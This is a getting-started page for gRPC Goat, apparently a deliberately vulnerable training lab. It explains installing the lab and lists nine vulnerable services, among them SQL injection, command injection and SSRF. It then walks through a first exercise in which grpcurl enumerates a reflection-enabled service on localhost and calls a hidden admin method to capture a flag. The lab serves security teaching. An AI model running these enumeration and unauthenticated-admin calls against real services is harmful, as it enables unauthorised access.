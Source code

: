 ```yaml
---
title: 'Installation & Getting Started'
description: 'Set up your gRPC Goat lab environment and run your first vulnerability test'
order: 3
---
```



# Installation & Getting Started

Welcome to gRPC Goat! This guide will help you set up your lab environment and run your first vulnerability test.

<Aside type="tip">
**Quick Start**: If you're familiar with Docker, jump to the [Quick Commands](#quick-commands) section to get started immediately.
</Aside>

## Prerequisites

Before you begin, ensure you have the following tools installed on your system:

### Required Tools

1. **Docker & Docker Compose**
   - Docker Engine 20.10+ or Docker Desktop
   - Docker Compose V2 (comes with Docker Desktop)
   - [Download Docker](https://docs.docker.com/get-docker/)

2. **grpcurl** (for testing gRPC services)
   ```bash
   # Install via Go
   go install github.com/fullstorydev/grpcurl/cmd/grpcurl@latest

   # Or via Homebrew (macOS)
   brew install grpcurl

   # Or via package manager (Ubuntu/Debian)
   sudo apt-get install grpcurl

   # Or download binary from GitHub releases
   # https://github.com/fullstorydev/grpcurl/releases
   ```

### Additional gRPC Testing Tools

**Command Line Tools:**
- **grpcurl** - Command-line tool for interacting with gRPC services
- **ghz** - gRPC benchmarking and load testing tool
- **evans** - Interactive gRPC client with REPL interface

**GUI Applications:**
- **Postman** - Popular API client with gRPC support (v8.5.0+)
- **BloomRPC** - Cross-platform gRPC client with GUI interface
- **Kreya** - Modern gRPC and REST API client
- **Insomnia** - API client with gRPC support

### Optional Tools

- **Go 1.21+** (if you want to build from source)
- **Git** (for cloning the repository)

## Installation

### Option 1: Clone from GitHub (Recommended)

```bash
# Clone the repository
git clone https://github.com/rootxjs/grpc-goat.git
cd grpc-goat

# Verify the setup
ls labs/  # Should show 9 lab directories
```

### Option 2: Download Release

Download the latest release from the [GitHub releases page](https://github.com/rootxjs/grpc-goat/releases) and extract it.

## Quick Commands

### Start All Labs at Once

```bash
# Start all 9 vulnerable services
docker compose up --build

# Run in background (detached mode)
docker compose up --build -d

# View logs
docker compose logs -f
```

### Start Individual Labs

```bash
# Example: Start only Lab 001 (gRPC Reflection)
cd labs/grpc-001-reflection-enabled
docker build -t grpc-001 .
docker run -p 8001:8001 grpc-001
```

## Service Endpoints

Once running, the labs will be available on the following ports:

| Lab | Service | Port | Description |
|-----|---------|------|-------------|
| **001** | Service Discovery | `localhost:8001` | gRPC Reflection vulnerability |
| **002** | Auth Service | `localhost:8002` | Plaintext gRPC communications |
| **003** | Billing Service | `localhost:8003` | Insecure TLS implementation |
| **004** | Partner API | `localhost:8004` | Arbitrary mTLS acceptance |
| **005** | Partner API v2 | `localhost:8005` | mTLS with subject validation bypass |
| **006** | Admin Service | `grpc-006 container` | Unix socket with world permissions |
| **007** | User Directory | `localhost:8007` | SQL injection vulnerability |
| **008** | File Processor | `localhost:8008` | Command injection vulnerability |
| **009** | Image Preview | `localhost:8009` | Server-Side Request Forgery (SSRF) |

## Your First Lab: Lab 001 - gRPC Reflection

Let's walk through your first vulnerability test to ensure everything is working correctly.

### Step 1: Start Lab 001

```bash
# Start Lab 001 specifically
docker compose up grpc-001 --build
```

Wait for the message: `gRPC server listening on :8001`

### Step 2: Test the Service

```bash
# Discover available services (this is the vulnerability!)
grpcurl -plaintext localhost:8001 list

# Expected output:
# grpc.reflection.v1alpha.ServerReflection
# servicediscovery.ServiceDiscovery
```

### Step 3: Exploit the Vulnerability

```bash
# List methods in the service
grpcurl -plaintext localhost:8001 list servicediscovery.ServiceDiscovery

# Expected output:
# servicediscovery.ServiceDiscovery.AdminListAllServices
# servicediscovery.ServiceDiscovery.ListServices
```

### Step 4: Capture Your First Flag

```bash
# Call the hidden admin method
grpcurl -plaintext -d '{"admin_token": "fake"}' \
  localhost:8001 servicediscovery.ServiceDiscovery/AdminListAllServices
```

**Congratulations!** You should see a response containing your first flag: `GRPC_GOAT{reflection_enabled_service_discovery}`

## Next Steps

Now that you have your environment set up and have captured your first flag:

1. **Learn gRPC Fundamentals**: If you're new to gRPC, check out the [gRPC Basics](/docs/grpc_goat_docs/grpc-basics) guide
2. **Explore More Labs**: Check out the [Labs Overview](/docs/grpc_goat_docs/labs) to see all 9 vulnerabilities
3. **Follow the Walkthrough**: Use the [Walkthrough Guide](/docs/grpc_goat_docs/walkthrough) for step-by-step exploitation instructions
4. **Learn the Mitigations**: Each lab includes security best practices to prevent these vulnerabilities
5. **Practice with Different Tools**: Try using Postman, BloomRPC, or other gRPC clients to interact with the services

<Aside type="note">
**CTF-Style Learning**: Each lab contains a unique flag that you can capture by successfully exploiting the vulnerability. This gamified approach makes learning gRPC security both engaging and practical.
</Aside>

Ready to dive deeper? Head to the [Walkthrough Guide](/docs/grpc_goat_docs/walkthrough) to learn how to exploit all 9 vulnerabilities!
